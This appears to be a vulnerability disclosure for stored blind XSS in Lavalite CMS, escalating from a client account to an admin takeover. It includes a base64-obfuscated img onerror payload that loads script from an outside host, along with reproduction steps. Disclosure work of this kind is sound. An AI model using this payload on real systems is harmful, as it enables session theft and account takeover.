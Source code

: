 # Description
Admin cookies and other details leading to an account take over to a heigher level privillage from a client account of lavalite CMS.
# Payload USED
```
"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYmVlZmVlLnhzcy5odCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61; onerror=eval(atob(this.id))>
```
# POC
* login to client account and admin account from entirely different browsers or through a private mode.
* In the client account click on settings and update the address column with the blind payload and save the updates made.
* from the admin account move to the end point http://localhost/admin/user/client .
* Booyah!!! XSS triggered.
# PermaLinks
[drive link](https://drive.google.com/drive/folders/1QfRhBX54orE65lq6rM33Fchft_gsaMHI?usp=sharing)
